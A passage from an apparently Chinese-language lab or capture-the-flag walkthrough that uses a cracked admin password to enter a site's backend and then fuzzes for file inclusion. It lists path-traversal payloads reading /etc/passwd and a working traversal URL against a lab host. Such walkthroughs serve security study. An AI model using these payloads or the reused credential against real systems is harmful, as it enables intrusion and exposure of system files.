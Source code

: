 并解密 admin 用户的密码，并可以登录网站后台

```
admin:transorbital1
```

并把这个也加入到账号密码本

## 后台文件包含

用 admin/transorbital1 这个得到的后台面登录网站

观察到 主页有一句重要的话

<img src=".\图片\Snipaste_2023-07-02_16-29-56.png" alt="Snipaste_2023-07-02_16-29-56" style="zoom:80%;" />

遇到这种情况可以尝试文件包含之类的，用 burp 来 fuzz 测试网站，字典用 seclists 里的 fuzz 字典

比如：

```
?filename=../../../../../etc/passwd
?file=../../../../../etc/passwd
?page=index.php
```

找到了  

```http
http://192.168.0.114/manage.php?file=../../../../../../etc/passwd
```
